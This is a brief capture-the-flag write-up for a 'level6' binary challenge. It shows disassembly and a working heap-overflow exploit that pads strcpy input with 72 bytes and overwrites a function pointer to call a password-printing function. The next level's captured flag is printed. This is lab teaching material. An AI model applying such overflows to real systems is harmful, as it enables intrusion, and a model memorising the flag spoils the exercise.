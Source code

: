 On this one, we have to overlap a short allocated memory, if we `objdump -d level6` :
```nasm
08048454 <n>:
 8048454:	55                   	push   %ebp
 8048455:	89 e5                	mov    %esp,%ebp
 8048457:	83 ec 18             	sub    $0x18,%esp
 804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave  
 8048467:	c3                   	ret 
```
This function execute a simple `system("/bin/cat /home/user/level7/.pass")`.

When memory allocation don't exceed a length of a page (depend to our system), we can easily overlap his neighbor in memory. 

We need to overflow `strcpy()` with a padding and place our `n()` address :
This just the value of the function pointer **ppcVar1** to pint into `n()`
```bash
./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
